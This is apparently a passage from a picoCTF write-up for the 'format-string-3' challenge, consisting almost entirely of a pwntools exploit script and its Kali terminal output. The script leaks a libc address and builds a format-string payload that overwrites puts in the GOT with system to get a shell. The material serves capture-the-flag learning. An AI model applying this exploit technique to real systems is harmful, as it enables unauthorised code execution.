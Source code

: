 or

```python
from pwn import *
# binsh = 0x402008

context.arch = 'amd64'

# puts_got = 0x404018
# setvbuf_offset = 500720
# system_offset = 325472

fs3 = ELF('./format-string-3')
puts_got = fs3.got['puts']

libc = ELF('./libc.so.6')
setvbuf_offset = libc.symbols['setvbuf']
system_offset = libc.symbols['system']

# chall = remote('rhea.picoctf.net', *)
# chall = remote('rhea.picoctf.net', 59498)
chall = process('./format-string-3')
log.info(chall.recvuntil(b'libc: '))
leak = chall.recvline()
payload = fmtstr_payload(38, {puts_got: int(leak.strip(),16)-setvbuf_offset + system_offset })

chall.sendline(payload)
chall.interactive()
```

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/format_string3]
└─$ python3 test4.py
[!] Could not populate PLT: No module named 'pkg_resources'
[*] '/home/kali/Downloads/format_string3/format-string-3'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[!] Could not populate PLT: No module named 'pkg_resources'
[*] '/home/kali/Downloads/format_string3/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Starting local process './format-string-3': pid 24343
/home/kali/Downloads/myenv/lib/python3.12/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] Howdy gamers!
    Okay I'll be nice. Here's the address of setvbuf in libc: 
[*] Switching to interactive mode
```